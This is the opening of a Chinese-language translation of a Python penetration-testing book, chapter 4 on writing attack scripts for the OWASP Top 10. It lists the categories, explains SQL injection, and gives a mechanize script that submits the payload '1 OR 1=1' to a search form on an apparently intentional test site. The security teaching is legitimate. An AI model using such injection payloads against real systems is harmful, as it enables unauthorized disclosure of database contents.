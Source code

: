 # Python 高效渗透测试（二）

> 原文：[`annas-archive.org/md5/DB873CDD9AEEB99C3C974BBEDB35BB24`](https://annas-archive.org/md5/DB873CDD9AEEB99C3C974BBEDB35BB24)
> 
> 译者：[飞龙](https://github.com/wizardforcel)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

# 第四章：使用 Python 进行攻击脚本编写

**开放式 Web 应用安全项目**（**OWASP**）十大是对最严重的网络应用安全风险的列表。在本章中，我们将讨论如何使用 Python 库编写 OWASP 十大攻击脚本：

+   注入

+   破坏的身份验证

+   跨站脚本（XSS）

+   不安全的直接对象引用

+   安全配置错误

+   敏感数据暴露

+   缺少功能级访问控制

+   CSRF 攻击

+   使用已知漏洞的组件

+   未经验证的重定向和转发

# 注入

SQL 注入是攻击者可能创建或更改 SQL 命令以披露数据库中的数据的方法。这对于接受用户输入并将其与静态参数结合以构建 SQL 查询而没有适当验证的应用程序非常有效。

同样，所有类型的注入攻击都可以通过操纵应用程序的输入数据来完成。使用 Python，我们可以向应用程序注入一些攻击向量，并分析输出以验证攻击的可能性。Mechanize 是一个非常有用的 Python 模块，用于浏览网页表单，它提供了一个具有状态的编程式网络浏览体验。

我们可以使用`mechanize`来提交表单并分析响应：

```py
import mechanize 
 # Import module 

# Set the URL 
url = "http://www.webscantest.com/datastore/search_by_id.php" 

request = mechanize.Browser() 

request.open(url) 

# Selected the first form in the page 
request.select_form(nr=0) 

# Set the Id  
request["id"] = "1 OR 1=1" 

# Submit the form 
response = request.submit() 

content = response.read() 

print content 

```
